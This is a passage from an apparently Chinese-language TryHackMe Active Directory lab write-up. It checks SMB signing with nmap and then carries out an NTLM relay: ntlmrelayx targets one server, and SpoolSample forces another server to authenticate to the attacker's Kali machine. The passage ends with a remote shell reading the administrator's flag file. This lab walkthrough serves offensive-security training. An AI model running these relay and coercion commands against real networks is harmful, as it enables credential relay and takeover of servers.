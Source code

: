 Location      :
Name          : Microsoft Print to PDF
PrinterState  : 0
PrinterStatus : 3
ShareName     :
SystemName    : THMSERVER2

```

## SMB Signing（SMB 签名）

nmap扫描 thmserver1.za.tryhackme.loc thmserver2.za.tryhackme.loc两台主机是否开启了smb强制签名

```
┌──(root💀kali)-[~/tryhackme/ExploitingActiveDirectory]
└─# nmap --script=smb2-security-mode -p445 thmserver1.za.tryhackme.loc thmserver2.za.tryhackme.loc
Starting Nmap 7.92 ( https://nmap.org ) at 2022-08-12 02:26 EDT
Nmap scan report for thmserver1.za.tryhackme.loc (10.200.60.201)
Host is up (0.58s latency).

PORT    STATE SERVICE
445/tcp open  microsoft-ds

Host script results:
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled but not required

Nmap scan report for thmserver2.za.tryhackme.loc (10.200.83.202)
Host is up (0.33s latency).

PORT    STATE SERVICE
445/tcp open  microsoft-ds

Host script results:
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled but not required

Nmap done: 2 IP addresses (2 hosts up) scanned in 18.92 seconds

```

显示Message signing enabled but not required，表示开启了smb，但未强制签名

所有条件满足

执行攻击：

1. kali开启ntlmrelayx监听，smb参数里的IP是我们需要收集哈希信息的IP，即THMSERVER1。注意，这里如果填域名的话会走kerberos认证，填IP才会走NTLM认证，所以必须填IP

```
python3 /usr/share/doc/python3-impacket/examples/ntlmrelayx.py -t smb://10.200.60.201 -smb2support -debug
```

2. 在THMWRK1上触发SMB流量,最后那个IP是我们kali的IP地址

```
PS C:\tools> .\SpoolSample.exe THMSERVER2.za.tryhackme.loc 10.50.57.67
[+] Converted DLL to shellcode
[+] Executing RDI
[+] Calling exported function

[thmserver1.za.tryhackme.loc]: PS C:\Users\t1_trevor.jones\Documents> whoami
[thmserver1.za.tryhackme.loc]: PS C:\Users\t1_trevor.jones\Documents> cd c:/users/administrator/desktop
[thmserver1.za.tryhackme.loc]: PS C:\users\administrator\desktop> ls
[thmserver1.za.tryhackme.loc]: PS C:\users\administrator\desktop> type flag2.txt